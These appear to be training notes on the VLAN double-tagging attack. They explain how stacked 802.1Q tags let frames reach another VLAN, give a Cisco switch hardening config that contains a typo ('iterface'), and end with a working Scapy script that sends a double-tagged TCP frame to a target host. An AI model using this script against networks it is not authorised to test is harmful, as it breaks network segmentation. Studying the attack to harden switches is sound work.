 
Double Tagging

This attack works if the attacker knows what the "native VLAN" that is used on your organization. Typically VLAN 1 is used. All VLANs will be "tagged" with its corresponding VLAN. The Native VLAN however is intended for local network communication and is not tagged. Thus anything tagged for the native VLAN will be stripped off. The attacker will insert 2 tags into their frames. The first tag will be for the Native VLAN and the second tag will be for whatever VLAN he is trying to access. Upon receipt the switch will then remove the Native VLAN tag and will leave the second VLAN tag in tact. This method also requires that the attacker and victim be separated by a trunk and a vulnerable switch.

```
switch(config)# vlan dot1q tag native
switch(config)# interface fastethernet 1/10
switch(config-if)# switchport mode access
switch(config-if)# switchport nonegotiate
switch(config-if)# switchport access vlan 10
switch(config)# iterface gigabit 0/1
switch(config-if)# switchport trunk encapsulation dot1q
switch(config-if)# switchport mode trunk
switch(config-if)# switchport nonegotiate
switch(config-if)# switchport trunk native vlan 999
```


DEMO VLAN Hopping

Scapy Script to demonstrate VLAN Hopping
```
a=Ether()
a.dst="ff:ff:ff:ff:ff:ff"
a.src="01:02:03:aa:bb:cc"
a.type=0x8100           #VLAN Tag will Follow

b=Dot1Q()
b.vlan=1                #Insert the network's Native VLAN number
b.type=0x8100           #Another VLAN Tag will Follow

c=Dot1Q()
c.vlan=20               #Target VLAN
c.type=0x0800           #IPv4 or any other Ethertype that is encapsulated

d=IP()
d.proto=6               #specifies that TCP is encapsulated. Change to 1 for ICMP or 17 for UDP.
d.src="10.10.0.40"      #Any source IP
d.dst="172.16.82.106"   #Target IP

e=TCP()
e.sport=54321
e.dport=80

f="message"

a.show()
b.show()
c.show()
d.show()
e.show()

sendp(a/b/c/d/e/f)
```
